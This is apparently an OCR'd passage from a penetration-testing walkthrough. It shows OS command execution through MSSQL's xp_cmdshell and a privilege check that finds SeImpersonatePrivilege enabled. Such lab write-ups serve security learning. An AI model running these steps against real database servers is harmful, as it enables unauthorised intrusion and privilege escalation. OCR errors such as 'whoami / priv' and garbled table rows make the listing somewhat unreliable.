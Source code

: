 > **let's try to exec command with `xp_cmdshell whoami`.**

```ruby

SQL> xp_cmdshell whoami 
output                                                                             

--------------------------------------------------------------------------------   

nt service\mssql$sqlexpress                                                        

NULL                                                                               

SQL> 


```

> **let's check our privilege.**

```ruby
SQL> xp_cmdshell whoami / priv
output

-------------------------------------------------- ------------------------------

Null

PRIVILEGE INFORMATION

--------------------------

Null

Privilege name Description Status

================================================= ==========================================

SeAssignPrimaryTokenPrivilege Replace a process-level token Disabled

SeIncreaseQuotaPrivilege Adjust memory quotas for a Disabled process

SeMachineAccountPrivilege Add workstations to domain Disabled

SeChangeNotifyPrivilege Skip Traversal Check Enabled

SeManageVolumePrivilege Perform volume maintenance tasks Enabled

SeImpersonatePrivilege Impersonate a client after authentication Enabled

SeCreateGlobalPrivilege Create global objects Enabled

SeIncreaseWorkingSetPrivilege Increase the workspace of a Disabled process

Null


```
